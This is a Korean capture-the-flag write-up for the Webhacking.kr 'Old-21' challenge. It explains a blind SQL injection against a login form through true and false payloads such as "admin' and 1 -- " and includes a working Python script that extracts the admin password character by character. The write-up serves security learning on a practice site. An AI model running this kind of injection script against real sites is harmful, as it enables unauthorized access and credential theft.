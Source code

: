 # _Old-21_

**Category:** _Web_

**Source:** _Webhacking.kr_

**Points:** _250_

**Author:** _galaxy(김경환)_

**Description:** 

> ![img](resource/prob.png)

## Point
blind sql injection

## Write-up

문제 화면에 BLIND SQL INJECTION이라고 친절히 알려줍니다.

blind sql injection의 전제조건이 query가 참일때와 거짓일때 반응이 다르게 나타나야 합니다.

id와 pw를 입력하는 창만있고 join을 해서 계정을 생성 할 수 없습니다.

따라서 참일때를 알려면 admin에 맞는 pw를 입력해야 하는데 이것을 알아내야 합니다.

그래서 "admin' and 1 -- "을 주어서 참을 입력해보았습니다.

![img](resource/true.png)

참일때는 wrong password가 나타납니다.

이번에는 "admin' and 0 -- "을 주어서 거짓을 입력해보았습니다.

![img](resource/false.png)

거짓일때는 login fail이 나타납니다. query가 참일때와 거짓일때 두가지형태로 보이니 blind sql injection이 가능합니다.

우리가 알아야 하는 부분은 admin에 대한 pw입니다. column name도 pw인지 알아보기 위해 "admin' and length(pw)>1 -- "을 주었습니다.

wrong password가 나타나서 column name도 pw인것을 알 수 있었습니다.

pw에 대한 길이를 찾고, mid()를 사용해서 각 자리마다 값을 찾아서 pw를 찾았습니다.

아래는 python script입니다.

```python
import requests
import string

url="https://webhacking.kr/challenge/bonus-1/index.php?id="
url2="&pw=a"
cookies={'PHPSESSID':'76rhlapfpg26rmbjsap6adr6ll'}

length=0

for i in range(50):
	URL=url+"admin' and length(pw)="+str(i)+" -- "+url2
	response=requests.get(URL,cookies=cookies)
	if 'wrong password' in response.text:
		length=i
		break

print('length is '+str(length))

pw=''
for i in range(1,length+1):
	for ch in ' !@#$%^&*()_+<>'+string.digits+string.letters:
		URL=url+"admin' and mid(pw,"+str(i)+",1)='"+ch+"' -- "+url2
		response=requests.get(URL,cookies=cookies)
		if 'wrong password' in response.text:
			pw+=ch
			break
print('pw is '+pw)
```

![img](resource/exp.png)

![img](resource/pwned.png)